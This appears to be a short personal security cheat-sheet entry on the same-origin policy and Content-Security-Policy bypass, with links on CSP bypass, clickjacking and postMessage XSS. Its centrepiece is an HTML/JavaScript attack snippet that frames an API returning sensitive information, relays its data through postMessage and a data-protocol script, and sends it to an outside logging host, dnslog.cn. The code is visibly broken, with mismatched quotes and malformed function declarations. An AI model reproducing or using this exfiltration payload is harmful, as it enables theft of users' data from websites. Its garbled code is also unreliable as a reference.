 ## SOP
## CSP
Content-Security-Policy
- [Bypass of CSP](https://csplite.com/csp320/)
- data protocol allowed: xss by iframe, combining postMessage
```
<html>
<body>
<iframe id='attack' src="http"//get_method_api_response_contains_sensitive_info/api"></iframe>
<script type="text/javascript">

var frame = document.getElementById("attack");
frame.addEventListener("load", function(){
  setTimeout(sendInfo,600)}
  )
 
function getInfo{
var payload = btoa(<script>                     #data protocol
    window.addEventListener(
     function(event)
       {xhr = new XMLHttpRequest();
        xhr.open("GET","http://dnslog.cn?message="+ event.data);
        xhr.send(null)}
     )
}     

function sendInfo{
 frames[0].postMessage("")
}
</script>
</body>
</html>
```
- [ClickJacking](https://resources.infosecinstitute.com/topic/bypassing-same-origin-policy-part-3-clickjacking-cursorjacking-filejacking/)
- [postMessage XSS on a million sites](https://labs.detectify.com/2016/12/15/postmessage-xss-on-a-million-sites/)
